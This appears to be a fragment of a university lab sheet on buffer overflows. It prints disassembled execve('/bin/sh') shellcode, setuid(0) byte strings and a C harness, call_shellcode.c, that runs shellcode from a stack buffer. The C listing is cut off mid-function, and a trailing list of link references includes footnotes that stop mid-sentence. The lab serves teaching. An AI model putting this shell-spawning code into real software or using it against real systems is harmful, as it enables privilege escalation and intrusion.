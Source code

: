 [^objdump]: You can replicate this by saving the assembly code as
  a file `sploit.s`, and inserting the lines: \
  \
  `section .text`  \
  &nbsp;&nbsp;`global _start` \
  &nbsp;&nbsp;&nbsp;&nbsp;`_start:` \
  \
  at the start. Compile it with the command `nasm -f elf32 sploit.s -o
  sploit.o`, then issue the command `objdump -d sploit.o` to see the
  disassembled shellcode.


```
off   bytes                       assembly code
---------------------------------------------------
   0:    31 c0                    xor    eax,eax
   2:    50                       push   eax
   3:    68 2f 2f 73 68           push   0x68732f2f
   8:    68 2f 62 69 6e           push   0x6e69622f
   d:    89 e3                    mov    ebx,esp
   f:    50                       push   eax
  10:    53                       push   ebx
  11:    89 e1                    mov    ecx,esp
  13:    31 d2                    xor    edx,edx
  15:    31 c0                    xor    eax,eax
  17:    b0 0b                    mov    al,0xb
  19:    cd 80                    int    0x80
```

[nasm]: https://www.nasm.us

### 2.1. Invoking the shellcode

Download the file [`bufoverflow-code.zip`][lab-zip] into the VM
(you can use the command `wget https://cits3007.arranstewart.io/labs/bufoverflow-code.zip`)
and unzip it.

[lab-zip]: https://cits3007.arranstewart.io/labs/bufoverflow-code.zip

`cd` into the `shellcode` directory, and take a look at
`call_shellcode.c` (reproduced below):

```{.C .numberLines}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Binary code for setuid(0)
// 64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;
```

[gitpod]: https://gitpod.io/
[docker]: https://docs.docker.com/get-started/overview/
[canaries]: https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/
[gcc-stack-protector]: https://developers.redhat.com/articles/2022/06/02/use-compiler-flags-stack-protection-gcc-and-clang#stack_canary
[gcc-stack-man]: https://gcc.gnu.org/onlinedocs/gcc-12.2.0/gcc/Instrumentation-Options.html#Instrumentation-Options
[shellcode]: https://en.wikipedia.org/wiki/Shellcode
[man-execve]: https://man7.org/linux/man-pages/man2/execve.2.html
[teensy]: http://www.muppetlabs.com/~breadbox/software/tiny/teensy.html
[^assembly]: Also called [assembly][assembly], assembler language, assembler
[assembly]: https://en.wikipedia.org/wiki/Assembly_language
[^registers]: A small, named memory cell used by the processor.
[x86-asm-guide]: https://www.cs.virginia.edu/~evans/cs216/guides/x86.html
[func-ptr-decl]: https://www.cprogramming.com/tutorial/function-pointers.html#:~:text=Function%20Pointer%20Syntax
[personality]: https://man7.org/linux/man-pages/man2/personality.2.html
[man-fork]: https://man7.org/linux/man-pages/man2/fork.2.html
[man-exec]: https://man7.org/linux/man-pages/man3/exec.3.html
[register]: https://en.wikipedia.org/wiki/Processor_register
[pytute]: https://developers.google.com/edu/python/introduction
[^mem-seg]: The man page for [proc](https://linux.die.net/man/5/proc) explains
[^main_line]: A little math tells us that (*location_in_main* $-$
[gdb-conv-var]: https://sourceware.org/gdb/onlinedocs/gdb/Convenience-Vars.html
[^intptr]: Technically, it would be more appropriate to treat `$saved_eip`